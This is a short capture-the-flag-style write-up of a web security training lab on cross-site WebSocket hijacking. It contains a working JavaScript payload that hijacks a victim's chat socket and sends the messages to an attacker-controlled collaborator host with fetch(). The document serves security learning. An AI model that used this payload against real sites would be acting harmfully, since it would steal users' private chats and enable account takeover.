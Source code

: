 # Practitioner Lab 97 : Cross-site WebSocket hijacking

---

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

![Untitled](Practitioner%20Lab%2097%20Cross-site%20WebSocket%20hijacking%200f974feb86244b55a2e1b440621461f3/Untitled.png)

I used this websocket handshake and switched the origin to the server that I control to see if it was vulnerable and it was. 

![Untitled](Practitioner%20Lab%2097%20Cross-site%20WebSocket%20hijacking%200f974feb86244b55a2e1b440621461f3/Untitled%201.png)

```
<script>
websocket = new WebSocket('wss://0a92002603b4c7e4832ccdc700df00c6.web-security-academy.net/chat')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://wmm8ajuml28ntg7eyuwmc9y7dyjp7mvb.oastify.com/?'+event.data, {mode: 'no-cors'})
}
</script>
```

![Untitled](Practitioner%20Lab%2097%20Cross-site%20WebSocket%20hijacking%200f974feb86244b55a2e1b440621461f3/Untitled%202.png)